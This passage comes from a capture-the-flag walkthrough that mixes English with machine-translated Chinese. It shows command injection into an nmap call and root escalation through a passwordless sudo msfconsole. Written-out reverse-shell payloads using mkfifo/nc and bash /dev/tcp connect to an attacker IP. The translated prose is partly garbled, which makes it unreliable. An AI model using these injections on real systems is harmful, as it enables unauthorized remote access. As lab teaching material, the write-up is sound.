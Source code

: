     nmap --top-ports 10 -oN recon//tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #.nmap /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f # 2>&1 >/dev/null
    

That might actually work, just as a lucky result of what gets cut.

Another issues I saw was people forgetting to comment out the rest of the line. So take the payload I used without the comment:

    oxdf@parrot$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15" | cut -d' ' -f3-
    x 127.0.0.1; ping -c 1 10.10.14.15
    

That creates:

    nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15.nmap x 127.0.0.1; ping -c 1 10.10.14.15 2>&1 >/dev/null
    

第一个将失败，因为不是有效的 ip。但是第二个将起作用，但输出将全部通过管道传输到 。转速外壳会变得更加混乱：`ping``10.10.14.15.nmap``/dev/null`

    oxdf@parrot$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'" | cut -d' ' -f3-
    x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
    

成为：

    nmap --top-ports 10 -oN recon/x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'.nmap x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' 2>&1 >/dev/null
    

第一个调用将重新连接，但随后由于 .第二个实际上会起作用，如果你足够快，让听众接收到第一个连接，再次开始侦听，然后得到第二个。类似的东西会起作用。`bash``.nmap``nc``for i in {1..2}; do nc -lvnp 443; done`

## 外壳作为根

### 列举

我通常检查的第一件事是 ，它再次得到回报，因为pwn可以在没有密码的情况下以root身份运行：`sudo``msfconsole``sudo`

    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    

### 壳

在运行它时，我有一个元扫描终端作为根：

    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
    ...[snip]...
    msf6 >
    
